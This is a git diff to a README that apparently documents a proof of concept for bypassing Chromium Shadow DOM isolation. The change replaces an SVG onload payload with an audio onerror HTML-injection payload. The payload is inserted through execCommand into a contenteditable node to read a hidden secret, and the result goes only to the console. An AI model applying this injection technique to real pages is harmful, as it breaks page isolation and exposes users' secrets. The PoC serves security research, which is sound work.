

update chrome poc

diff --git a/README.md b/README.md
@@ -237,10 +237,11 @@ div.setAttribute('contenteditable', 'true');
 
 // attacker
 setTimeout(() => {
+    console.log(1, 'stolen secret:');
+    const bypass = '<audio/src/onerror=console.log(2,this.nextSibling.innerHTML)>';
     find('Secret is:'); // assuming the Shadow includes predictable text
     // assuming the found node is contenteditable=true
-    document.execCommand('insertHTML', false, '<svg/onload=console.log(2,this)>')
-    console.log(1, 'stolen secret: ');
+    document.execCommand("insertHTML", false, bypass);
 });
 </code></pre>
 <img width="800" src="./assets/img3.png" alt="ShadowDOM bypass Chromium"/>
